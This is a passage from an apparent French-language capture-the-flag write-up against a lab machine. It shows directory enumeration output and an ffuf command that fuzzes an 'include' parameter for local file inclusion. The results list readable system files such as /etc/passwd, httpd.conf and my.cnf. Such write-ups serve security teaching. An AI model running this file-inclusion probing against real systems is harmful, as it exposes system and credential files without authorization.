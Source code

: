 ```console
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      350l     1034w    17119c http://192.168.56.137/index.html
301        7l       20w      238c http://192.168.56.137/account
301        7l       20w      234c http://192.168.56.137/css
301        7l       20w      233c http://192.168.56.137/js
301        7l       20w      234c http://192.168.56.137/img
200      129l      521w     6687c http://192.168.56.137/statement.html
[####################] - 12m  3820683/3820683 0s      found:6       errors:0      
[####################] - 12m  3820683/3820683 5003/s  http://192.168.56.137/
```

Dns le dossier `account`, la page d'index redirige vers `http://192.168.56.137/account/index.php?include=cookiewarning`. Le paramètre `include` est assez explicite.

J'ai un fichier nommé `logfiles.txt` que j'avais fait et qui contient la plupart des paths intéressants à tester, mais on trouve ce genre de listes facilement (`SecLists`, etc).

```console
$ ffuf -u "http://192.168.56.137/account/index.php?include=FUZZ" -w wordlists/files/logfiles.txt  -fs 4898

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.137/account/index.php?include=FUZZ
 :: Wordlist         : FUZZ: wordlists/files/logfiles.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 4898
________________________________________________

/etc/hosts              [Status: 200, Size: 5076, Words: 126, Lines: 102, Duration: 9ms]
/etc/passwd             [Status: 200, Size: 6330, Words: 122, Lines: 130, Duration: 3ms]
/etc/os-release         [Status: 200, Size: 5311, Words: 114, Lines: 116, Duration: 6ms]
/etc/redhat-release     [Status: 200, Size: 4955, Words: 112, Lines: 101, Duration: 38ms]
/etc/httpd/conf/httpd.conf [Status: 200, Size: 16623, Words: 2134, Lines: 452, Duration: 93ms]
/proc/version           [Status: 200, Size: 5088, Words: 128, Lines: 101, Duration: 62ms]
/proc/cmdline           [Status: 200, Size: 5108, Words: 117, Lines: 101, Duration: 123ms]
/var/log/dmesg          [Status: 200, Size: 36411, Words: 5485, Lines: 612, Duration: 41ms]
/var/run/utmp           [Status: 200, Size: 6070, Words: 108, Lines: 100, Duration: 22ms]
/var/log/wtmp           [Status: 200, Size: 11830, Words: 108, Lines: 103, Duration: 34ms]
/etc/group              [Status: 200, Size: 5576, Words: 108, Lines: 151, Duration: 449ms]
/etc/crontab            [Status: 200, Size: 5369, Words: 199, Lines: 115, Duration: 474ms]
/etc/motd               [Status: 200, Size: 4918, Words: 108, Lines: 100, Duration: 559ms]
/etc/issue.net          [Status: 200, Size: 4940, Words: 112, Lines: 102, Duration: 579ms]
/etc/issue              [Status: 200, Size: 4941, Words: 112, Lines: 103, Duration: 612ms]
/etc/my.cnf             [Status: 200, Size: 5488, Words: 160, Lines: 119, Duration: 621ms]
/etc/inittab            [Status: 200, Size: 5429, Words: 171, Lines: 117, Duration: 621ms]
/etc/services           [Status: 200, Size: 675211, Words: 284162, Lines: 11276, Duration: 628ms]
:: Progress: [275/275] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
